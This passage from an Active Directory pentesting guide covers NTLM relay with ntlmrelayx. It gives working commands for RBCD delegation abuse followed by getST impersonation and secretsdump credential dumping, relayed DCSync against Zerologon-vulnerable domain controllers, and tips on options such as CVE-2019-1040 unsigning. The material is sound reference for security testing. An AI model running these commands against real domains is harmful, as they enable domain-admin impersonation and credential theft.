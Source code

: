 
=== Delegation

The following command will [abuse Resource Based Kerberos Constrained Delegations (RBCD)](../kerberos/delegations/rbcd.md) to gain admin access to the relayed machine. The `--escalate-user` option must be supplied with a controlled machine account name. If no machine account is controlled, the `--add-computer` option can be supplied instead like the "Account creation" tab before, and by targeting LDAPS instead of LDAP.

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET --escalate-user SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account (e.g. the domain admin) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```


=== DCSync

A [DCSync](../credentials/dumping/dcsync.md) can also be operated with a relayed NTLM authentication, but only if the target domain controller is vulnerable to [Zerologon](../netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```

:::


### Tips & tricks :bulb:

The ntlmrelayx tool offers features making it a very valuable asset when pentesting an Active Directory domain:

* It can work with mitm6 (for [DHCPv6 + DNS poisoning](../mitm-and-coerced-authentications/#ipv6-dns-poisoning)) by enabling IPv6 support with the `-6` option (IPv6 support is not required since most hosts will send IPv4 but using this option is recommended since it will allow relay servers to work with IPv4 and IPv6)
* It supports SMB2. It can be enabled with the `-smb2support` option
* It implements CVE-2019-1040 with the `--remove-mic` option, usually needed when attempting "cross-protocols unsigning relays" (e.g. SMB to SMB-with-required-signing, or SMB to LDAP/S). This option can also be used when NTLMv1 is allowed (NTLMv1 doesn't support MIC).
* it implements CVE-2019-1019 with the `-remove-target` and `-machine-account` arguments
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`, and the `-w` option can be set to watch the target file for changes and update target list automatically
* the target can be specified with a target protocol like `ldap://target` but the "all" keyword can be used (`all://target`). If the protocol isn't specified, it defaults to smb.
* It has the ability to relay connections for specific target users to be defined in the targets file
* It has the ability to relay a single connection (SMB only for now) to multiple targets, see below
